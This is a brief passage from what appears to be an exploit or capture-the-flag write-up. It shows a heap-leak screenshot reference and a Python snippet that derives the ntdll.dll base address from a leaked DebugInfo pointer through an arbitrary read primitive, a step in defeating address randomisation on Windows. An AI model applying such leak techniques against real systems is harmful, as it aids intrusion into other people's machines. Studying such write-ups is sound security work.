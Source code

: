   <img src="writeup/heapleak3.png" style="width: 60%; border-radius: 0%;" />
</p>

With this knowledge and our arbitrary read primitive, we can obtain the base address of `ntdll.dll`:

```python
ntdll = DebugInfo - (0x7ffd71611f90 - 0x7ffd714a0000)
print(f"[+] ntdll: {hex(ntdll)}")
```

<p align="middle" float="left">